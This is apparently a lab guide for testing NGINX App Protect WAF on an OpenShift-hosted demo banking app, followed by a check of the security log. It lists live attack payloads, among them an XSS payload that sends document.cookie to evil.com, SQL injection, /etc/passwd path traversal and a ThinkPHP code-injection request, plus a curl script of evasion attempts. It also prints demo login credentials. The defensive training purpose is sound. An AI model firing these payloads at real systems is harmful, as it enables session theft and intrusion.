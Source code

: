 Access the Application and Test the WAF
-----------------------------------------------------------

Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 14609283746114744748
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        :align: center
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png
        :align: center
 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try**

``SQL Injection - GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``

``Remote File Include - GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``

``Command Execution - GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``

``HTTP Parser Attack - GET /?XDEBUG_SESSION_START=phpstorm``

``Predictable Resource Location Path Traversal - GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``

``Cross Site Scripting - GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``

``Informtion Leakage - GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``

``HTTP Parser Attack Forceful Browsing - GET /dana-na/auth/url_default/welcome.cgi``

``Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``

``Cross Site Scripting - GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``

** and many more from bash script below **

.. code-block :: bash

    #!/bin/bash
    echo "------------------------------"
    echo "Starting security testing..."
    echo "------------------------------"
    echo ""
    echo ""
    echo "---------------------------------------------------------------------"
    echo "Multiple decoding"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/three_decodin%2525252567.html'"
    echo "---------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/three_decodin%2525252567.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Apache Whitespace"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/tab_escaped%09.html'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/tab_escaped%09.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "IIS Backslashes"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/regular%5cescaped_back.html'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/regular%5cescaped_back.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Apache Whitespace"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/carriage_return_escaped%0d.html?x=1&y=2'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/carriage_return_escaped%0d.html?x=1&y=2"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Cross site scripting"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/%25%25252541PPDATA%25'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/%25%25252541PPDATA%25"    


Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD by running ``oc get all -o wide``

Example: 

.. code-block:: bash

        [lab-user@bastion app-protect-waf]$ oc get all -o wide
        NAME                           READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
        pod/app2-6bd5b4fbd7-6k8hd      1/1     Running   0          18h   10.128.2.47   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/app3-5699b95596-2s927      1/1     Running   0          18h   10.131.0.19   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>
        pod/backend-79c6bcf85c-k8m2s   1/1     Running   0          18h   10.128.2.45   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/main-584fc64db4-v8jf2      1/1     Running   0          18h   10.128.2.46   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/syslog-bb47bd798-2vqps     1/1     Running   0          18h   10.131.0.20   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>

#. Examine the logging matching the support ID of `436359350950` 

Example: 

.. code-block:: bash

        [lab-user@bastion app-protect-waf]$ oc exec -it pod/syslog-bb47bd798-2vqps  -- cat /var/log/messages | grep 4363593509500748230
        Feb  8 18:53:09 my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz ASM:attack_type="SQL-Injection,Other Application Activity",blocking_exception_reason="N/A",date_time="2023-02-08 18:53:09",dest_port="80",ip_client="76.220.40.89",is_truncated="false",method="GET",policy_name="dataguard-alarm",protocol="HTTP",request_status="blocked",response_code="0",severity="Critical",sig_cves="N/A,N/A,N/A,N/A",sig_ids="200002553,200000073,200002736,200000082",sig_names="SQL-INJ integer field UNION (Parameter),SQL-INJ ""UNION SELECT"" (Parameter),SQL-INJ ' UNION SELECT (Parameter)...",sig_set_names="{SQL Injection Signatures},{SQL Injection Signatures},{SQL Injection Signatures}...",src_port="52787",sub_violations="N/A",support_id="4363593509500748230",threat_campaign_names="N/A",unit_hostname="my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz",uri="/",violation_rating="5",vs_name="78-a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com:8-/",x_forwarded_for_header_value="N/A",outcome="REJECTED",outcome_reason="SECURITY_WAF_VIOLATION",violations="Attack signature detected,Violation Rating Threat detected",json_log="{""violations"":[{""enforcementState"":{""isBlocked"":true},""violation"":{""name"":""VIOL_RATING_THREAT""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ integer field UNION (Parameter)"",""signatureId"":200002553},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""UNION SELECT\"" (Parameter)"",""signatureId"":200000073},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ ' UNION SELECT (Parameter)"",""signatureId"":200002736},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""SELECT FROM\"" (Parameter)"",""signatureId"":200000082},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}}]}",violation_details="<?xml version='1.0' encoding='UTF-8'?><BAD_MSG><violation_masks><block>410000000000c00-3a03030c30000072-8000000000000000-0</block><alarm>2477f0ffcbbd0fea-befbf35cb000007e-8000000000000000-0</alarm><learn>0-0-0-0</learn><staging>0-0-0-0</staging></violation_masks><request-violations><violation><viol_index>42</viol_index><viol_name>VIOL_ATTACK_SIGNATURE</viol_name><context>parameter</context><parameter_data><value_error/><enforcement_level>global</enforcement_level><name>aGZzYWdycw==</name><auto_detected_type>alpha-numeric</auto_detected_type><value>LTEgdW5pb24gc2VsZWN0IHVzZXIscGFzc3dvcmQgZnJvbSB1c2VycyAtLSA=</value><location>query</location><param_name_pattern>*</param_name_pattern><staging>0</staging></parameter_data><staging>0</staging><sig_data><sig_id>200002553</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>15</length></kw_data></sig_data><sig_data><sig_id>200000073</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>43</length></kw_data></sig_data><sig_data><sig_id>200002736</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>9</offset><length>14</length></kw_data></sig_data><sig_data><sig_id>200000082</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>17</offset><length>34</length></kw_data></sig_data></violation></request-violations></BAD_MSG>",bot_signature_name="N/A",bot_category="N/A",bot_anomalies="N/A",enforced_bot_anomalies="N/A",client_class="Browser",client_application="Chrome",client_application_version="109",request="GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+ HTTP/1.1\r\nHost: a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com\r\nConnection: keep-alive\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\n\r\n",transport_protocol="HTTP/1.1"
        [lab-user@bastion app-protect-waf]$

3. The output of the command shows the relevant log entry that contains information about a SQL injection attack and the specific signatures that were triggered by the attack.

Congratulations on completing the Lab!



        